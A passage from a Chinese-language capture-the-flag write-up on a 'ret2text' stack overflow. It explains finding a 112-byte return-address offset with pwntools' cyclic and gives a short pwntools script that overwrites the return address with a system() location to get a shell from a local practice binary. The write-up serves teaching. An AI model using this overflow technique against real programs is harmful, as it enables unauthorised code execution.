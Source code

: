 ![image-20230414134519936](./README.assets/image-20230414134519936.png)

使用`cyclic 200`生成了一个长为200的无序字符串，输入到程序当中去。可以看到EBP、ESP、EIP全都被覆盖了，其中EIP被覆盖就是因为main()的函数栈帧中返回地址被变成了“daab”，也就是0x61626264，main()函数返回之后将返回地址放到EIP寄存器，程序跳转到这个位置发现有问题，所以输出“Invalid address 0x61626264”。因此，子串“ddab”相较于之前输入的200字节长无序字符串的位置就是变量v4到main()函数栈帧返回地址的偏移量。cyclic小工具很贴心的有这个功能，通过`cyclic -l daab`就可以得出这个距离了：112，即从变量v4的屁股到返回地址的屁股之间有112个字节，我们向变量v4填入112个垃圾字节，再填入代表system()函数代码位置的0x804863A这四个字节，就可以让main()返回到system()函数那里了。

开始编写脚本：

```python
from pwn import *


# 创建进程对象
proc = process("./ret2text")

# 目标返回地址
target_addr = 0x804863A

# 字节形式的填充以及32位形式目标地址
proc.sendline(b"#" * 112 + p32(target_addr))

# 交互式界面
proc.interactive()
```

输出结果：
